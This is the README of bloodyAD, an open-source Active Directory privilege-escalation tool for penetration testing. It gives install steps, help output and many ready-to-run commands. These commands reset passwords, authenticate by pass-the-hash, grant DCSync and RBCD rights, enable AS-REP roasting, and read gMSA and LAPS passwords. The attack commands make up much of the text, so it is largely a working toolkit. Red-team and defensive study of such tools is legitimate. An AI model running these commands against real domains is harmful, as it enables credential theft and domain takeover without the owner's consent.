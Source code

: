 > :warning: autobloody has been moved to its own [repo](https://github.com/CravateRouge/autobloody)  

# ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) bloodyAD

`bloodyAD.py` is an Active Directory privilege escalation swiss army knife

## Description

This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

`bloodyAD` supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## Installation

First if you run it on Linux, you must have `libkrb5-dev` installed on your OS in order for kerberos to work:
```ps1
# Debian/Ubuntu/Kali
apt-get install libkrb5-dev

# Centos/RHEL
yum install krb5-devel

# Fedora
dnf install krb5-devel

# Arch Linux
pacman -S krb5
```

A python package is available:

```ps1
pip install bloodyAD
bloodyAD --host 172.16.1.15 -d bloody.local -k changePassword john.doe 'Password123!'
```

Or you can clone the repo:

```ps1
git clone --depth 1 https://github.com/CravateRouge/bloodyAD
pip install .
bloodyAD --host 172.16.1.15 -d bloody.local -k changePassword john.doe 'Password123!'
```

### Dependencies

- Python 3
- DSinternals
- Impacket
- Ldap3
- Gssapi (linux) or Winkerberos (Windows)

## Usage

Simple usage:

```ps1
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword john.doe 'Password123!'
```

**Note:** You can find more examples on <https://cravaterouge.github.io/>

List of all available functions:

```ps1
[bloodyAD]$ bloodyAD -h
usage: bloodyAD [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST]
                   {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                   ...

AD Privesc Swiss Army Knife

Main options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                        Function to call
```

Help text to use a specific function:

```ps1
[bloodyAD]$ bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

## How it works

bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. ~~A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.~~ Exchange of sensitive information such as passwords are now supported using cleartext LDAP.

## Useful commands

```ps1
# Get group members
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get AD functional level
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' msDS-Behavior-Version

# Get all users of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False

# Get UserAccountControl flags
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes john.doe userAccountControl

# Read GMSA account password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 getObjectAttributes gmsaAccount$ msDS-ManagedPassword

# Read LAPS password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 getObjectAttributes COMPUTER$ ms-Mcs-AdmPwd

# Read quota for adding computer objects to domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' ms-DS-MachineAccountQuota
```
